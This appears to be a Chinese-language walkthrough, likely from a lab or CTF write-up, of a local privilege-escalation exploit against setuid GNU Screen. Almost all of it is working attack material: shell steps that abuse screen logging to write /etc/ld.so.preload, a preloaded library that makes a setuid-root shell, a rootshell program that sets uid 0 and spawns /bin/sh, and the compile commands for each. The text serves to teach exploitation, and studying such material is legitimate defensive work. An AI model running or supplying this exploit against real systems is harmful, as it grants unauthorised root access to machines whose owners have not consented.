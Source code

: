 ```
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
```

这里告诉了我们使用方法  
先将第一部分写入libhax.c文件中

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

然后编译

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

![upload successful](https://lnng.top/images/pasted-210.png)

**upload successful**

  
将中间的代码存入rootshell.c中

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

然后编译

```
gcc -o rootshell rootshell.c
```

![upload successful](https://lnng.top/images/pasted-211.png)
